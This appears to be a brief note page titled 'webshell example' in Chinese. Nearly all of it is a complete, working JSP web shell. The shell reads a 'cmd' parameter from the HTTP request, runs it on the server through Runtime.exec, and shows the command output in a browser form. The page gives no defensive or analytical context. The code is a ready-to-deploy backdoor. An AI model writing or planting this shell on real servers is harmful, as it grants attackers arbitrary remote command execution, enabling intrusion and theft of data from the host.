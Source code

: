 # webshell示例
	- ```jsp
	  <%@ page import="java.io.*" %>
	  <%
	  String cmd = request.getParameter("cmd");
	  String output = "";
	  if(cmd != null) {
	      String s = null;
	      try {
	          Process p = Runtime.getRuntime().exec(cmd);
	          BufferedReader stdInput = new BufferedReader(new 
	  InputStreamReader(p.getInputStream()));
	          BufferedReader stdError = new BufferedReader(new 
	  InputStreamReader(p.getErrorStream()));
	          while ((s = stdInput.readLine()) != null) {
	              output += s+"\n";
	          }
	          while ((s = stdError.readLine()) != null) {
	              output += s+"\n";
	          }
	      }
	      catch (IOException e) {
	          e.printStackTrace();
	      }
	  }
	  %>
	  <html>
	  <head>
	  <title>JSP Webshell</title>
	  </head>
	  <body>
	  <form method="GET" action="<%=request.getRequestURI()%>">
	  <input type="text" name="cmd" size="80">
	  <input type="submit" value="Execute">
	  </form>
	  <pre>
	  <%=output %>
	  </pre>
	  </body>
	  </html>
	  
	  ```